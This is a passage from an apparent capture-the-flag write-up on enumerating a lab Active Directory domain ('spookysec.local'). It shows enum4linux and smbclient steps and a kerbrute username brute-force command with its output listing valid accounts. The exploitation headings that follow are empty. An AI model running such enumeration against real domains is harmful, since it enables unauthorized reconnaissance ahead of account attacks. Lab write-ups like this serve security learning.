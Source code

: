      ===============================( Getting printer info for 10.10.199.245 )===============================

    Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


    enum4linux complete on Sat Apr  2 10:34:47 2022


On top of that we can do `smbclient -L \\\\$IP` but it does not return anything interesting as well.

# Task 4 Enumeration Enumerating Users via Kerberos

Add `$IP spookysec.local` in /etc/hosts 

Install `kerbrute` to brute force users discovery with the following command with the userlist provided

`kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt`

    ─$ /opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local  userlist.txt                                                                                                130 ⨯

        __             __               __     
       / /_____  _____/ /_  _______  __/ /____ 
      / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
     / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
    /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

    Version: v1.0.3 (9dad6e1) - 04/02/22 - Ronnie Flathers @ropnop

    2022/04/02 10:56:00 >  Using KDC(s):
    2022/04/02 10:56:00 >  	spookysec.local:88

    2022/04/02 10:56:01 >  [+] VALID USERNAME:	 james@spookysec.local
    2022/04/02 10:56:15 >  [+] VALID USERNAME:	 svc-admin@spookysec.local
    2022/04/02 10:56:23 >  [+] VALID USERNAME:	 James@spookysec.local
    2022/04/02 10:56:28 >  [+] VALID USERNAME:	 robin@spookysec.local
    2022/04/02 10:57:06 >  [+] VALID USERNAME:	 darkstar@spookysec.local
    2022/04/02 10:57:27 >  [+] VALID USERNAME:	 administrator@spookysec.local
    2022/04/02 10:58:10 >  [+] VALID USERNAME:	 backup@spookysec.local
    2022/04/02 10:58:31 >  [+] VALID USERNAME:	 paradox@spookysec.local
    2022/04/02 11:00:49 >  [+] VALID USERNAME:	 JAMES@spookysec.local
    2022/04/02 11:01:36 >  [+] VALID USERNAME:	 Robin@spookysec.local
    2022/04/02 11:06:10 >  [+] VALID USERNAME:	 Administrator@spookysec.local
    2022/04/02 11:14:39 >  [+] VALID USERNAME:	 Darkstar@spookysec.local
    2022/04/02 11:17:18 >  [+] VALID USERNAME:	 Paradox@spookysec.local
    2022/04/02 11:26:40 >  [+] VALID USERNAME:	 DARKSTAR@spookysec.local
    2022/04/02 11:29:24 >  [+] VALID USERNAME:	 ori@spookysec.local
    2022/04/02 11:34:25 >  [+] VALID USERNAME:	 ROBIN@spookysec.local
    2022/04/02 11:46:55 >  Done! Tested 73317 usernames (16 valid) in 3054.313 seconds

The two notable accounts found are svc-admin and backup.

# Task 5 Exploitation Abusing Kerberos
# Task 6 Enumeration Back to the Basics
